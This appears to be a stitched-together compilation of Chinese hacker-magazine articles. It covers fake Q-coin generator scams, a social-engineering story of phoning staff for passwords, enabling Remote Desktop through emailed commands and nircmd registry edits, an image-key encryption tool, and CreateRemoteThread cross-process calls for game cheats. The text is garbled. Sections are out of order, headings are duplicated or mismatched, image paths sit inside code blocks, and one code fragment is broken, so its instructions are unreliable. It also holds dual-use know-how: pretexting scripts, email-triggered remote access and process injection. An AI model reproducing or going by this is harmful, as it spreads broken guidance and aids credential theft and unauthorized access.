首先，这篇文章没有什么技术含量，这只是我的感受，老鸟跳过。众所周知，想玩QQ的人都需要Q币。玩游戏，买装备，买时装，办业务等等，可是谁不想白白的弄Q币呢？想入侵腾讯的服务器？呵呵，这至少不是我们这个等级的小黑可以办到的。于是，网上就有些人想到了这些人的心理，出现了许多的刷Q币的软件，教程。一看就知道是假的！可是还真的就有小白上他们的当！

今天我就带领X的菜鸟们看看他们的面纱后面什么！

首先我们打开度娘，输入“刷Q币”！（如图1）找到相关结果约2,440,000个！唉，旁观者悲哀啊！
### 1. 教程式刷法解密

首先如图2所示，看到了么，还挺详细的，还截了好多的图，貌似很真的样子，我们看到他会说有什么刷钻代码，其实那就是QQ号！看看他们说的，什么不要充5元10元的，要充20-300的……多么可恶啊！（如图3）

可能有人不信，或者没有看明白，于是他们就搜视频，于是有了下文。
## 融资攻略一
这里先告诉大家一个方法，进入查询余额页面，在浏览器输入

```javascript
document.body.contentEditable='true';document.designMode='on';void 0

























```

这行代码，这时你会发现你的鼠标变成编辑文本的样式了，你把鼠标移动到QQ余额那里，按删除键，图片没了，随意输入及个数（如图4），看到了么，够如假包换吧！

### 2. 视频式刷法解密

视频的就是教程的升级版，如果用教程的图还可以PS一下，那么视频呢？

我们不要管他什么，只要是刷钻就很假啦！我们先看图，看到了吗，他还把自己的QQ号搜索了一下以证明这是真的（如图5、6）。
### 3. 软件式刷法解密

这个其实最假了！谁会不知道这是盗号呢！可是实日们还不是使用，难道你们就不想想，让你输入QQ和密码，你们真的就输入吗，轻则盗号，还会中病毒，呵呵，看看这界面还挺华丽（如图7、8、9），神马的、盗号的一应俱全，什么？杀毒软件？那免杀是什么的呢？
### 4. 兑换式刷法解密

我最烦的也就是这个，这种刷法要一定的技术，肉鸡的宽带金额来刷，不是什么好行为，这里我就不多说了！

### 5. 手机式刷法解密

就是利用手机亦业务，可以以很低的价格办理业务，亦业务不是很稳的，还有，他们有的人员说给什么电话号码打，为了你的话费着想，别打为妙！
### 6. 总结

为什么我们看不到别人的帐号呢？因为他们改了主页帐户为邮箱，然后点击“只允许网友通过主页来帐户查找到我”（如图10），或者使用特殊符号（如图11），这样也找不到。
以给那个“代号”发邮件，如果没有退信，猜想正确，可能关了）。

现在人们网络安全意识逐渐提高，可是，提高不等于不中招，总有一些人会抓住我们的把柄！所以我建议最好用虚拟机、影子系统之类的软件，这样，你的系统才会“无敌”，呵呵，希望大家好好学习技术，不要走一些歪路！黑也要黑的光明！

## 社会工程学

随着安全技术的不断开发，利用技术弱点进行攻击变得越来越困难，攻击者更多地转向利用人的弱点。社会工程学越来越强力地挑战了将信息安全集中于防火墙、入侵检测系统和杀毒软件的传统信息安全。

社会工程学由现实中的一些欺骗手段，延伸应用到网络之中而形成的。社会工程学的出现，使得入侵渗透更加容易。

社会工程学是什么？

简单的来说，就是骗。社会工程学是高于普通欺骗的一种复杂手段，是一种通过对受害者本能反应、好奇心、信任、贪婪等心理进行欺骗、伤害等手段，取得自身利益的手法，近年来已经呈现出迅速上升的态势，希望通过这篇文章能让大家尽量避免被社工的悲剧。

由于运用社会工程学的门槛比较低，所以利用社会工程学理论来攻击网络的趋之若鹜，攻击手段也日趋成熟，技术含量也是越来越高。下面我们来分析社会工程学中很经典，很有代表的一个典例。希望大家能在这个故事中了解到社会工程学理论的应用。

### 鳄嘴夫的故事

斯蒂夫是一个医疗器材公司的职员，他最近在做一件新型的智能心脏。

斯蒂夫十分苦恼，他思考的如何降低心脏支架的动力消耗方面却没有丝毫的进展。电话响了，技术支持部的雷蒙。

> “这是一个善意的来电，有三台服务器挂掉了。应该在星期四令你的文件正常使用。”
>
> “这真让人无法接受，”斯蒂夫很沮丧。他们不知道自己没电脑不可以工作吗？“我用家里的电脑连线，两小时后，我要访问我的文件。懂了吗？”
>
> “我打的每一个电话，对方都要求先处理他们的事情。”
>
> “我现在的工作公司十分重视，我今天要完成它。”
>
> “星期二恢复你文件的使用，怎么样？”
>
> “不行，要现在！”
>
> “好吧，”雷蒙说，斯蒂夫还能听到他无奈的叹了口气。“我该怎么让你连线，你使用RM22服务吗，对么？”
>
> “RM22和GM16。”

## 黄金钥匙一

> “很好，可以绕过一些程序来节省些时间，我需要你的用户名和口令。”
>
> 为什么他需要我的口令？“你姓什么？主管是谁？”
>
> “雷蒙。听着，你被雇用的时候，填了一个表格等于了你的密码。我可以找到这个文件，然后告诉你？”

斯蒂夫同意。他等着雷蒙取出文件，最终返回到电话前，斯蒂夫可以听到他在摆弄一堆文件。

> “哈，找到了，你写的密码是Janice。”

Janice是他母亲的名字，有时他会用做密码，很可能在他填写雇用登记表时就用它做密码了。

> “是的，是这样。”他承认道。
>
> “那好，我们正在浪费时间。你知道我是真的，你想让我走远在帮你快速的取回文件，就必须给予我帮助。”
>
> “我的用户名是cramer，密码是pelican1。”
>
> “三个小时内，我把它恢复正常，”

斯蒂夫吃过午饭，便来到他的计算机前，发现他的文件已经恢复了。

### 克雷恩眼中的故事

克雷恩是一个商业间谍。

这次收到一个紧急任务。对方公司叫做文星，一家500强企业。对于我来说，大公司比小公司容易得多。在小公司里很可能会被对方认出来不是自己所声称的那个人，而这种情况会把你的一切都毁了。

客户发过来一封传真，说是一些医疗杂志上报道了双堡医疗研究的全新设计的心脏支架，叫做STH-100。由于事情变得很热，记者们已经替我做了前期调查工作。

于是我打电话给他们公司接线员：“我答应与你们的一位工程师联系，但我记不得他姓什么了，只记得他的名字是以S开头。”接线员说：“有两个人，一个叫斯科特，一个叫杰姆。”我冒着风险问：“哪一个在STH-100工作组？”她不知道，我只好随意选了斯科特。

对方拿起电话，我说：“嗨，我是麦克，收发室的。我们收到一个寄给STH-100心脏支架方案组的快递，应该给谁？”他告诉我方案组长的名字，杰瑞，他还帮我查到了电话。

我打给杰瑞，他的语音留言说他在度假，任何人有事的话打9137找米歇尔。这些信息太有用了。我挂了电话接着打给米歇尔，她接起电话，我说：“我是比尔，杰瑞要我把说明书打给你，让组里的人看看。”

星，能找一个人给予我帮助。他把电话转给别人，我装作对计算机技术一窍不通。“我在家里，我刚买了一个笔记本，需要设置一下，以便能从外面拨入服务器。”

设置很简单，但我耐心地让他一步一步地教我，直到拨入电话号码。他告诉我那个号码，就像说出其它的一些日常信息。然后，我让他等我试一下。

拨号进入，偶然发现一台计算机上的来宾账号口令为空。于是我获得了加密口令。

一个叫斯蒂文的工程师，拥有一个口令为“Janice”的账号。可是不是服务器的口令。我得用些技巧来让这个人自己告诉我他的用户名和密码。我一直等到周末。后面的事情，你们已经知道了。周六，我打电话给克莱默，用服务器必须从备份中恢复的理由打消他的怀疑。也许有人要问，他填写雇用登记表时的口令是怎么一回事？我指望他不会记着所有的事，谁还会记得自己几年前的密码。而且，那份名单上还有其他人能尝试。

我找到了需要的文件。

### 对故事的分析

入侵者是一个熟悉社会工程学的人，我们不得不承认他的技术。他的大部分工作如探囊取物般简单。先是假扮收发室的工作人员，声称收到一封联邦快递包裹来增加紧迫感，这样他得到了心脏支架研发组组长的名字，这位组长正在度假，可他却留下了助手的名字和电话。克雷格打给这位助手，谎称项目组长的要求来打消她的怀疑。组长不在城里，米歇尔在无法证实他所言属实的情况下，相信了，并把项目组成员名单毫无保留地提供给他。当克雷格让他发传真而不是使用令双方都方便的电子邮件时，她甚至都没有怀疑。为什么她如此轻易的相信他人？如同许多工作人员那样，这个人所做的事是她的上司交待要做的。

故事中入侵者使用到的技能有那些？

- 1. 充分收集环境中的信息，进行详细的分析。
- 2. 对这些材料进行整理，设计陷阱。
- 3. 在入侵过程中入侵者完美的运用了模仿的技能。对麻痹目标起很大作用。
- 4. 利用心理学人际关系学等技术。
- 5. 紧密的思维。

这些也是社工必备的技能，入侵者利用这些技能，经过紧密的处理，取得了重大的成绩，不得不为之称赞。

无可避免的，社会工程学被人用来诈骗。本质却是为了入侵。有朋友说，黑客技术本身就是骗术，但骗的却是计算机，是系统。

社会工程学将黑客技术进行到最大化，不仅利用系统弱点进行入侵，还能通过人性的弱点进行入侵，当这两种技术融为一体时，将根本不可能有安全的系统存在，技术高超的社会工程师最终会击溃所有的安全防线！

## 巧发邮件，让远程控制听咱“招呼”

郭建伟

小李是单位的网管员，为了便于工作，他在服务器上开启了远程桌面/终端服务，这样不管走到哪里，都可以远程操作目标主机。不过最近当小李检查服务器日志时，发现有可疑的远程连接信息，看来八成是有黑客“光顾”过。如何才能既阻止黑客非法连接，又不影响自己的正常远程控制操作呢？经过一番研究，小李终于找了解决之道；那就是让远程控制软件“听从”自己的“指挥”，根据自己的需要启动或者停止远程控制服务。本文就以远程桌面/终端服务、Remote Administrator两款远程控制软件为例，来说明实现的具体方法。

在“Accept IDs”栏中输入您的主叫邮箱（例如“lysofter@tom.com”），可以输入多个邮箱，彼此之间以逗号分隔。在“Refresh”栏中输入检测周期（单位为分钟，最小为0.1分钟），点击“Done”按钮完成配置操作。
### 二、远程桌面/终端服务的开启方法

按照常规方法，在Windows 2003/XP环境中，要想激活本机的远程桌面/终端服务，需要点击桌面上的“我的电脑”图标，在弹出菜单中点击“属性”项，在系统属性窗口的“远程”面板中勾选“允许用户远程连接到此计算机”复选框，主题栏为空，在内容栏中清空所有内容，注意必须须启用项目方可。实际上，上述操作的目的是将在注册表中“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server”分支下的“fDenyTSConnections”键值设置为“0”，表示开启远程桌面/终端服务。如果将“fDenyTSConnections”键值设置为“1”，表示关闭远程桌面/终端服务。

当您需要开启目标主机上的远程桌面/终端服务时，进入您的预设主叫邮箱，在收件人栏中输入您的Gmail邮箱，主题栏为空，在内容栏中清空所有内容，注意必须须启动项目方可。实际操作时，只需按照上述方法，向您的Gmail邮箱发送包含“cmd opened.bat”命令的邮件（如图3）。其中的“cmd”参数表示执行具体命令。
### 二、创建批处理文件

NirCMD是一款免费的命令行增强程序，只包含一个“nircmd.exe”文件，我们将其复制到“C:\Windows”文件夹中，作为系统内部命令使用。NirCMD自带了大量参数，可以对系统方方面面进行控制。这里只有使用其对注册表的读写功能。在“C:\Windows”文件夹中新建一个名为“openrd.bat”的批处理文件（如图1），其只包含一条命令，内容为“nircmd regsetval dword "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" "fDenyTSConnections" 0”（不带大引号）。再创建一个名为“closerd.bat”的文件，其内容为“nircmd regsetval dword "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" "fDenyTSConnections" 1”。运行“openrd.bat”文件，可以开启远程桌面/终端服务；运行“closerd.bat”文件，则可以关闭远程桌面/终端服务。之后将上述文件全部复制到“C:\Windows”文件夹中。
### 三、远程桌面/终端服务的关闭方法

GMail Commander是一款有趣的免费软件，允许通过向您的Gmail邮箱发送各种控制命令，来远程执行各种操作。将其安装到远程主机上。在其主窗口（如图2）中的“Username”栏中输入您的Gmail邮箱账户（本例为“lysofter”），在“Password”栏中输入邮箱密码。在“Accept IDs”栏中输入您的主叫邮箱，之后即可通过邮件控制远程桌面/终端服务。

### 四、远程桌面/终端服务的关闭方法

同远程桌面/终端服务相比，Remote Administrator具有很多独特的优点，在实际工作中应用很广泛。Remote Administrator安装之后，会在“开始”→“程序”菜单中创建名为“Remote Administrator”的程序组，包含“Start Remote Administrator server”和“Stop Remote Administrator server”两个快捷菜单项，前者用于启动Remote Administrator服务，后者用于关闭Remote Administrator服务。
机上运行GMail Commander，当需要开启Remote Administrator服务时，进入您的主叫邮箱，按照上述方法，向您的Gmail邮箱发送包含“Run Start Remote Administrator server”内容的邮件（如图4），其中的“Run”参数表示执行目标快捷方式。远程主机上的GMail Commander收到该邮件后，即可执行开始程序菜单中的“Run Start Remote Administrator server”菜单项，这样就启动了Remote Administrator服务。当使用完毕后，再向您的Gmail邮箱发送包含“Run Stop Remote Administrator server”的邮件，就可以关闭Remote Administrator服务了。

（文中涉及“GMail Commander/nircmd本期光盘已收录）

# 无密码的加密法

牟晓东

对于加密，恐怕大家都不陌生了。加密，最关键的当然就是密码了，当然也有将信息加密放入到图片、声音或是视频等格式的文件之中的。其实，还有一类不需要密码的加密方法，比如使用一个图片文件来作为加密的密钥。该工具名叫PixelCryptor，据说它的加密原理是对作为密钥的图片先进行MD5加密，然后再从中截取出一部分MD5密文来作为加密的密码。
首先到http://u.115.com/file/f0936decb6下载这个大小为3.2MB的PixelCryptorSetup.exe安装程序，之后双击进行安装，直接一路进行“Next”和“I accept the agreement”操作即可。运行PixelCryptor，主界面非常简洁，最主要的功能都在中间的两个按钮上了：左边的是“Encode Files”，负责加密；右边的是“Decode Files”，负责解密（如图1）。点击左边的“Encode Files”按钮，在弹出的“Encoding-Select which files and folders to include in the package”（“加密-选择打包的加密文件和文件夹”）窗口中，点击中间的“Add File”按钮进行待加密的选择操作（如果想同时加密在同一个文件夹中的多个文件的话，可单击“Add Folder”按钮），这样就会把选中的文件添加进来了。接着单击右下角的“Next”按钮，在弹出的“Encoding-Select which image to use for the encode process”（“加密-选择一幅图片以用于加密过程”）窗口中，单击中间的“Click here to select an image”（“单击此处选择一幅图片”）。选择好作为密钥的图片文件之后，继续单击右下角的“Next”按钮，在弹出的“Encoding-Select a destination for the package”（“加密-选择存放加密文件的目标文件夹”）窗口中设定好路径和生成的文件名，再点击“Next”按钮即可完成文件的加密工作（如图2）。
解密过程与加密过程类似，既可以在主界面中单击“Decode Files”按钮，也可以直接双击已经生成的“007.cgp”文件来打开调用PixelCryptor。接着就要选择加密时所使用到的图片密钥文件“背景.jpg”，然后点击“Next”按钮，马上就会显示出被加密的文件名、大小和类型等信息；继续点击“Next”按钮设置待解密文件的存放路径，PixelCryptor就会很快还原出一个未加密的原文件来（如图3）。
怎么样，是不是很简单而且非常有趣？只要保存好加密时使用过的图片密钥文件，我们不就实现了不需要密码就能加密的愿望了吗？呵呵，大家不妨一试。

（文中涉及的“PixelCryptor”本期光盘已收录）

## 8.3 远程调用函数

函数在编程语言中的作用，无论哪本教科书都会大书特书。但是，再详细的教科书，都没有要调用别的进程的函数的详细说明。远程调用函数该怎么办。

调用别的进程的函数，就是所谓的远程调用。这里的“远程”，与网络范畴的“远程”有所区别。网络的远程是指网络中的其它计算机，而这里的远程，则是在同一台机器上运行的别的进程。什么时候需要远程调用呢？较常见的例子就是游戏外挂。要使游戏中的角色完成某种特定动作，可以采用模拟客户端发送数据包的方法实现。但这种方法工作量较大，如果能找到游戏中该动作所对应的函数，那就考虑使用远程调用的方法。

我们知道，运行在保护模式下的现代操作系统，例如 Windows，通常是进程隔离的，也就是一个进程无法使用另一个进程的资源，包括函数。但是，由于实际编程的需要，Windows 也预留了跨进程的访问接口，例如 CreateRemoteThread 可以跨进程创建线程，ReadProcessMemory/WriteProcessMemory 则分别可以跨进程读写内存，而 VirtualAllocEx 则可以跨进程申请内存空间。了解了这些 API，我们就可以来实现和丰富远程调用，唱主角是 CreateRemoteThread。CreateRemoteThread 是个曝光率比较高的 API，很多人一看到它，第一反应就是远程注入 dll。当然，远程注入 dll 也可以间接实现远程调用，不过过于繁琐，我们还是去繁就简，重新认识一下 CreateRemoteThread，函数声明如下：

```c
HANDLE WINAPI CreateRemoteThread(
  __in HANDLE hProcess,
  __in LPSECURITY_ATTRIBUTES lpThreadAttributes,
  __in SIZE_T dwStackSize,
  __in LPTHREAD_START_ROUTINE lpStartAddress,
  __in LPVOID lpParameter,
  __in DWORD dwCreationFlags,
  __out LPDWORD lpThreadId
);
```

代码很简单，先输出本进程的进程 ID，然后等待用户操作，最后调用 print。这个 print 函数就是要调用的函数，它将弹出一个提示框。按照普通远程调用的核心代码：

```c
main()
{
    printf("%x", GetCurrentProcessId());
    getchar();
    print();
}
```

现在，远程调用的核心部分就介绍完了，接下来实际看一下，需要远程调用的目标进程的核心代码如下：

```c
main()
{
    DWORD PID = 0;
    scanf("%x", &PID);
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, PID);
    CreateRemoteThread(hProcess, NULL,
        0, (LPTHREAD_START_ROUTINE)print, NULL, 0, NULL);
}
```

看起来眼花缭乱，其实常用的参数就三个，分别解决远程调用的三个问题。首先，既然是远程调用，那就得指明远程调用的目标进程 ID，然后等待其动作，最后调用 print。这个 print 函数就是要调用的函数，它将弹出一个提示框。

```c
0; (LPTHREAD_START_ROUTINE)0x401000, NULL, 0, NULL);
```

代代码也很简单，这里由于已知进程ID，所以利用 OpenProcess 来获取进程句柄，接着就是调用 CreateRemoteThread。Print 函数的起始地址是 0x401000，由于不用传参数，所以 lpParameter 设为 NULL。

看看效果，首先运行目标程序。

这里显示进程ID是 0x13C0，请注意光标的位置。现在运行远程调用的程序，输入进程ID，回车。

提示框出现了，请再次注意光标的位置。光标并没有移动，说明没有击键动作，按程序原来的流程，不击键是不会弹对话框的，这说明我们成功的远程调用了 Print 函数。当然，这只是个极简单的范例，在实际运用中需要灵活组合各种跨进程的 API，才可以解决很多限制实现远程调用，例如刚才说的多参数问题。解决 CreateRemoteThread 无法调用多参数函数的问题，需要绕点弯子，曲线救国。首先，用 VirtualAllocEx 申请一片内存空间，接着用 WriteProcessMemory 向该内存空间写入一个间接调用函数，间接调用函数的伪代码如下：

根据实际需要填写这些参数，当然，需要把它们转换为机器码。最后，用 CreateRemoteThread 远程调用这个间接调用函数，就可以实现多参数的远程调用。

```text
    Push 参数1
    Push 参数2
    ...
    Push 参数n
    Call 目标函数




